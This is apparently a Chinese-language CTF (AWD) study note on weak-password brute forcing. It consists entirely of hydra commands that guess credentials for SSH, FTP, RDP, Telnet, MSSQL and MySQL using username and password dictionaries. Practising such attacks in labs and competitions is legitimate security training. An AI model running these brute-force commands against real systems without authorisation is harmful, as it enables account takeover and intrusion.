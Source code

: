 ```yaml
---
title: 弱口令爆破
date: 2024-09-25 14:30:34
updated: 2024-11-15 21:49:39
categories:
  - 网络安全
  - AWD
tags:
  - AWD
  - 网络安全
permalink: /posts/弱口令爆破/
---
```

爆破SSH密码

```
hydra -L 用户名字典.txt -P 密码字典.txt 目标IP地址 ssh
hydra -L 用户名字典.txt -P 密码字典.txt ssh://192.168.1.100
hydra -L 用户名字典.txt -P 密码字典.txt ssh://192.168.1.100 -s 40      //40是⽬标服务开放的端⼝
```



爆破FTP密码

```
hydra -L 用户名字典.txt -P 密码字典.txt 目标IP地址 ftp
hydra -L 用户名字典.txt -P 密码字典.txt ftp://192.168.1.100/
```



爆破RDP远程桌面密码

```
hydra 目标IP地址 rdp -l administrator -P 密码字典.txt -V
```



爆破Telnet

```
hydra 目标IP地址 telnet -l 用户字典.txt -P 密码字典.txt -f -V
```



爆破MSSQL数据库

```
hydra -l sa -P 密码字典.txt 目标IP地址 mssql
```



爆破MySQL数据库

```
hydra -L 用户名字典.txt -P 密码字典.txt 目标IP地址 mysql
```